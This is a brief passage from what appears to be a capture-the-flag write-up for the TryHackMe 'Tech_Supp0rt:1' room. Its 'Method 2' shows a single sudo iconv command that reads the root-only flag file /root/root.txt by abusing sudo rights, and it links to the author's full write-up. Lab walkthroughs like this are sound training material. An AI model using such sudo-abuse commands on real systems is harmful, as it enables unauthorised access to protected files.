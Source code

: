 ## Method 2

We don't need to login to see root flag by using this command.

```bash
sudo -u root iconv  -f 8859_1 -t 8859_1 "/root/root.txt"
```
My github write-up : https://github.com/Defalt-cloud/CTF-Writeups/blob/main/TryHackMe/Tech_Supp0rt:1/Tech_Supp0rt.md

Thx for reading !! Have a nice day